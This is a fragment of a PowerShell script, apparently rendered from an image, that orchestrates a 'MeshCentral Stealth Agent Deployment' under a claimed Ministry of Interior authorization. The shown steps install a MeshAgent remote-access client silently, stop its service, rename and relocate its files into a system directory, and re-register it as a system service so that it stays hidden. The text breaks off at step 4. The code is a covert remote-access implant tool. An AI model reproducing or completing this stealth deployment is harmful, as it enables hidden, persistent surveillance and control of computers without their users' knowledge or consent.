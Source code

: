 ```powershell

    } catch {
        Write-StealthLog "Error during verification: $_" -Level 'ERROR'
        return $false
    }
}

# ============================================================================
# MAIN DEPLOYMENT ORCHESTRATION
# ============================================================================

function Invoke-StealthDeployment {
    param(
        [string]$ServerUrl,
        [string]$InstallHash,
        [string]$Level
    )

    Write-Host ""
    Write-Host "================================================================" -ForegroundColor Cyan
    Write-Host "    MeshCentral Stealth Agent Deployment" -ForegroundColor Cyan
    Write-Host "    Ministry of Interior Authorized" -ForegroundColor Cyan
    Write-Host "    Classification: Internal Security Operations" -ForegroundColor Cyan
    Write-Host "================================================================" -ForegroundColor Cyan
    Write-Host ""

    Write-StealthLog "===== DEPLOYMENT STARTED =====" -Level 'INFO'
    Write-StealthLog "Stealth Level: $Level" -Level 'INFO'
    Write-StealthLog "Server URL: $ServerUrl" -Level 'INFO'

    # Step 1: Check if MeshAgent is already installed
    if (Test-MeshAgentInstalled) {
        Write-Host "[1/12] MeshAgent already installed - proceeding with stealth modification..." -ForegroundColor Yellow
        Write-StealthLog "Existing MeshAgent detected" -Level 'INFO'
    } else {
        Write-Host "[1/12] Installing MeshAgent silently..." -ForegroundColor Green
        if (-not (Install-MeshAgentSilent -ServerUrl $ServerUrl -InstallHash $InstallHash)) {
            Write-Host "DEPLOYMENT FAILED: Could not install MeshAgent" -ForegroundColor Red
            return $false
        }
        Start-Sleep -Seconds 5
    }

    # Step 2: Stop MeshAgent service
    Write-Host "[2/12] Stopping MeshAgent service..." -ForegroundColor Green
    if (-not (Stop-MeshAgentService)) {
        Write-Host "WARNING: Could not stop service cleanly" -ForegroundColor Yellow
    }

    # Step 3: Rename and relocate files
    Write-Host "[3/12] Relocating files to system directory..." -ForegroundColor Green
    if (-not (Rename-MeshAgentFiles)) {
        Write-Host "DEPLOYMENT FAILED: Could not relocate files" -ForegroundColor Red
        return $false
    }

    # Step 4: Update service registration
    Write-Host "[4/12] Re-registering as Windows system service..." -ForegroundColor Green
    if (-not (Update-ServiceRegistration)) {
        Write-Host "DEPLOYMENT FAILED: Could not update service registration" -ForegroundColor Red
```